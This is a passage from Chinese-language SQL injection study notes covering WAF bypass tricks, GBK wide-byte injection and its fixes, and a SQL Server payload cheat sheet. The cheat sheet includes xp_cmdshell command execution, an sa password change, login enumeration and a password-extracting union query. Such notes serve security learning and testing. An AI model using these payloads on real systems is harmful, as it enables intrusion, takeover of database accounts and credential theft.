     - `user()`/`@@user`
  - 符号和关键字
    - `and`/`&`
    - `or`/`|`

- HTTP参数
  - HTTP参数污染
    - `id=1&id=2&id=3`
  - HTTP分割注入
- 缓存区溢出
  - 一些c语言的WAF处理的字符串长度有限, 超出某个长度后的payload可能不会被处理
- 二次注入有长度限制时, 通过多句执行的方法改掉数据库该字段的长度绕过

### 6. SQL注入小技巧
#### 1. 宽字节注入
一般程序员用gbk编码做开发的时候，会用 `set names 'gbk'` 来设定，这句话等同于
```bash
set
character_set_connection = 'gbk',
character_set_result = 'gbk',
character_set_client = 'gbk';
```
漏洞发生的原因是执行了 `set character_set_client = 'gbk';` 之后，mysql就会认为客户端传过来的数据是gbk编码的，从而使用gbk去解码，而mysql_real_escape是在解码前执行的。但是直接用 `set names 'gbk'` 的话real_escape是不知道设置的数据的编码的，就会加 `%5c` 。此时server拿到数据解码 就认为提交的字符+%5c是gbk的一个字符，这样就产生漏洞了。

解决的办法有三种，第一种是把client的charset设置为binary，就不会做一次解码的操作。第二种是是 `mysql_set_charset('gbk')` ，这里就会把编码的信息保存在和数据库的连接里面，就不会出现这个问题了。 第三种就是用pdo。

还有一些其他的编码技巧，比如latin会弃掉无效的unicode，那么admin%32在代码里面不等于admin，在数据库比较会等于admin。

### 7. CheatSheet
#### 1. SQL Server Payload
- version
  - `SELECT @@version`
- Comment
  - `SELECT 1 -- comment`
  - `SELECT /*comment*/1`
- Space
  - `0x01 - 0x02`
- Current User
  - `SELECT user_name()`
  - `SELECT system_user`
  - `SELECT user`
  - `SELECT loginame FROM master..sysprocesses WHERE spid = @@SPID`
- List User
  - `SELECT name FROM master..syslogins`
- Current Database
  - `SELECT DB_NAME()`
- List Database
  - `SELECT name FROM master..sysdatabases`
- Command
  - `EXEC xp_cmdshell 'net user'`
- Ascii
  - `SELECT char(0x41)`
  - `SELECT ascii('A')`
  - `SELECT char(65)+char(66) => return AB`
- Delay
  - `WAITFOR DELAY '0:0:3'` pause for 3 seconds
- Change Password
  - `ALTER LOGIN [sa] WITH PASSWORD=N'NewPassword'`
- Trick
  - `id=1 union:select password from:user`
  